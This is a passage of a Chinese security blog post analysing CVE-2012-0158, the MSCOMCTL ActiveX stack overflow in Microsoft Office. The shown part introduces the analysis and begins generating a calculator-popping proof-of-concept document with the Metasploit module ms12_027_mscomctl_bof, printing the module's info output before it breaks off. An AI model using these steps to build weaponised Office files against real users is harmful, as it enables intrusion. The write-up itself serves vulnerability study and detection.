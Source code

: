 > 原文链接: https://www.anquanke.com//post/id/91643 


# 永远的经典：CVE-2012-0158漏洞分析、利用、检测和总结


                                阅读量   
                                **357089**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">11</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/dm/1024_536_/t0176f1b2ad8448d7bd.png)](https://p2.ssl.qhimg.com/dm/1024_536_/t0176f1b2ad8448d7bd.png)

> 前段时间调试了一下CVE-2017-11882，分析过程中发现CVE-2017-11882和CVE-2012-0158很像。上周末我决定重新分析一下0158这个经典的栈溢出漏洞。由于0158是office领域的入门漏洞，所以这篇文章中我借这个漏洞来展示一下对这类office内嵌ActiveX控件漏洞的基本分析过程。

## 用metasploit生成样本

首先在Kali Linux下用metasploit 生成一个CVE-2012-0158弹计算器的样本，步骤如下：

```
msf &gt; use exploit/windows/fileformat/ms12_027_mscomctl_bof



msf exploit(ms12_027_mscomctl_bof) &gt; info

  Name: MS12-027 MSCOMCTL ActiveX Buffer Overflow

  Module: exploit/windows/fileformat/ms12_027_mscomctl_bof

  Platform: Windows



Privileged: No

  License: Metasploit Framework License (BSD)

  Rank: Average

  Disclosed: 2012-04-10



Provided by:

  Unknown

  juan vazquez &lt;juan.vazquez@metasploit.com&gt;

  sinn3r &lt;sinn3r@metasploit.com&gt;



Available targets:
```